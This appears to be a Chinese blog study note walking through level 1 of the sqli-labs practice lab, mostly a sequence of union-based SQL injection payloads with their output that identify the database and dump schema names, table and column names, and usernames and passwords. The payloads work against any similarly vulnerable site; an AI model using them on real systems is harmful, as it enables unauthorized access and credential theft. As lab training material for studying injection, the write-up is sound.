```yaml
---
title: sqli_lib之less1
toc: true
description: "和 webug 之显错注入一样, 这也是一个 sql 显错注入. 作为最基本的 sql 注入入门, 你需要通过显错注入学到注入的基本思想、步骤以及技术基础。"
categories:
    - websec
    - sql injection
date: 2019-07-25 15:38:01
tags:
---
```


虽然有 mysql 注入天书，但是总感觉自己总结一下，学得会更扎实，写给自己看吧。下面解释并不多，主要是记录流程以及 payload。对你来说，你应该自己亲手敲出这些 payload，并且清楚地理解其含义，学会举一反三。

## 检测注入点

在 id=1 后面加一个英文引号，即：?id=1'

报错：....the right syntax to use near ''1'' LIMIT 0,1' at line 1

这里注意 near 后面最外围的引号是报错语句将 sql 语句引起来用的，所以真实的 sql 语句是：'1'' LIMIT 0,1

由此可知

1. 字符型注入，即：php 源码写的是 where id=‘\$id’
2. where 查询后面还有个 limit 一会儿加个注释，注释掉他。

## 猜字段数

?id=-1' order by 3 --+
结果为三个字段，即：此查询语句查询了三个字段。

## 注入相关信息

注意：这里 id = -1' ，将 1 改成-1 是为了让前面查询不到结果，这样查询结果只有我们写的 union 查询后面查询出的结果了。

数据库，系统版本及当前数据库名, 当前登录用户，mysql 数据库的路径等

```php
?id=-1' union select 1,concat_ws(' , ', version(), database(), user(), @@datadir, @@version_compile_os),3 --+
```

回显:
5.5.53 , security , root@localhost , C:\phpStudy\MySQL\data\ , Win32

这里我们知道了，数据库版本：5.5.53，当前数据库的名字 security，当前用户：root，mysql 数据库的路径： C:\phpStudy\MySQL\data\，系统版本：Win32

## 爆数据库名

```php
?id=-1' union select 1,group_concat(distinct schema_name), 3 from information_schema.schemata --+
```

回显: Your Login name:information_schema,challenges,mysql,performance_schema,security,webug,webug_sys,webug_width_byte

这里简单介绍一下，information_schema 中的 schemata 表，存储着 mysql 中所有数据库的数据。包括表名：schema_name，字符集等。

爆数据库名，正规的话就用，information_schema 中的 schemata 表

当然，不正规的方法也有，可以使用 information_schema 中的 tables 表 或者 columns 表。

因为 tables 存储着 table_schema 即每张表位于的数据库，这样又会有很多重复的，所以使用 group_concat(distinct 字段名) 去除重复的，并将其组合成一个以逗号分隔的字符串。

```php
?id=-1' union select 1,group_concat(distinct table_schema), 3 from information_schema.tables --+
```

columns 表也是类似

```php
?id=-1' union select 1,group_concat(distinct table_schema), 3 from information_schema.columns --+
```

## 爆表

列出 security 数据库中的表

```php
?id=-1' union select 1,group_concat(distinct table_name), 3 from information_schema.tables where table_schema='security' --+
```

回显: Your Login name:emails,referers,uagents,users

爆表一般就用 informtion_schema 中的 tables 列，当然你像上面爆库的时候，使用 columns 表中的 table_name 字段和 group_concat(distinct 字段名)

回显：Your Login name:emails,referers,uagents,users

## 爆列

列出 securtiy 库的 users 表中的列名

```php
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' --+
```

回显：Your Login name:id,username,password

学到了注入列名的方法，在 columns 表中使用 where 语句查询某个数据库下的某个表的字段名，字段名肯定是不会重复的，所以 group_concat 不用使用 distinct。

## 爆 users 的数据

```php
?id=-1' union select 1,concat_ws(' , ', username, password), 3 from security.users --+
```

回显：Your Login name:Dumb , Dumb

## 总结回顾：

1. 学到了如何注入列名，可以对 webug 显错注入的流程进行改进。
2. 需要系统地学习并总结一下 mysql 的系统数据库，尤其是 information_schema 中的表，并来一篇笔记
3. 对注入流程更加清晰了，再把 sql 注入介绍那篇博文加上 sql 注入流程。

推荐文章：

[你真的会 SQL 注入攻击吗？（下）](https://zhuanlan.zhihu.com/p/22397620)
